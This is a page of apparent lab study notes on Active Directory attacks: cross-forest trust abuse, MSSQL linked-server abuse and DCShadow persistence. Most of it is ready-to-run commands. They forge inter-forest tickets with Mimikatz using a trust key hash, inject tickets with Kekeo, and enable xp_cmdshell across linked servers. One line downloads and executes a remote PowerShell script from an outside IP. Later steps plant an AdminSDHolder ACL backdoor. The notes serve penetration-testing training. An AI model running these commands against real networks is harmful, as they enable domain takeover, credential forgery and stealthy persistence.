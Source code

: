 
### Abusing Cross-Forest Trusts

#### Trust Abuse Across Forest
* Request inter-forest trust key as Domain Admin `Invoke-Mimikatz -ComputerName dcorp-dc '"lsadump::trust /patch"'`
* Forge inter-forest TGT `invoke-mimikatz -command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local  /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:aae3f153a4140c0f171702ca5d85d5b8 /service:krbtgt /target:eurocorp.local /ticket:c:\tmp\forest_trust.kirbi"'` (SID of current domain  - `dollarcorp.moneycorp.local` in this example; rc4 of `[  In ] DOLLARCORP.MONEYCORP.LOCAL -> EUROCORP.LOCAL`)
* Get TGS `.\kekeo_old\asktgs.exe C:\tmp\forest_trust.kirbi CIFS/eurocorp-dc.eurocorp.local`
* Inject TGS `C:\ad\tools\kekeo_old\kirbikator.exe lsa C:\ad\tools\CIFS.eurocorp-dc.eurocorp.local.kirbi`
* Access targeted service with same access as dcorp `ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\`

#### Trust Abuse - MSSQL Servers - DB Links
* Tools: *PowerUpSQL* and *HeidiSQL*
* Enumerate (Discover + Check Accessibility) `Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose`
* Gather Information `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
* DB Links allow SQL Server to access external data sources (eg other servers, OLE DB sources such as csv files)
* DB Link -> possible to execute stored procedures on linked servers
* DB Links work across forest trusts
* Find DB Links to specified server `Get-SQLServerLink -Instance dcorp-mssql -Verbose` OR `select * from master..sysservers`
* `openquery()` to run query on linked DB eg `select * from openquery("dcorp-sql1",'select * from master..sysservers');` - can be nested to follow links to DB servers further along the chain
* `select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select serverproperty(''''''''machinename''''''''), @@version;'''')'')');`
* Find links recursively: `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose`
* Command Execution:
  * on target, `xp_cmdshell` must be enabled
  * to enable: `EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"`
  * `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xpcmdshall 'whoami'"`
  * `Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'powershell iex (new-object net.webclient).downloadstring(''http://172.16.99.32/callme.ps1'') ' "`

#### Forest Persistence - DCShadow
* temporarily registers a new DC and uses it to push attributes (eg SID History, SPNs) on objects. *Leaves no logs for modified object*
* Need DA privileges by default
* attacker's machine must be part of root domain
* Need 2 mimikatz instances
  1. Start RPC servers with SYSTEM privileges and specify attributes to be modified: `!+` ; `!processtoken` ; `lsadump::dcshadow /object:root1user /attribute:Description /value="blah"` (eg set user SPN). This must run with SYSTEM privileges. Instead of `!+` etc, we can also start process with `psexec -s -i ` to run as SYSTEM
  2. Push the values (must have enough privileges (DA or otherwise)): `lsadump::dcshadow /push`
* Can set minimum req'd permissions with `Set-DCShadowPermissions` from *Nishang*. For example, to allow student32 to modify root32user from machine mcorp-student32: `Set-DCShadowPermissions -FakeDC mcorp-student1 -SAMAccountName root32user -Username student32`. Now mimikatz is not required to run as DA
* Modify the ACL of AdminSDHolder using DCShadow
  1. Get ACL `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC =moneycorp,DC=local")).psbase.ObjectSecurity.sddl`
  2. Copy the Full Control ACE for BA `(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;BA)`, substituting our user's SID for BA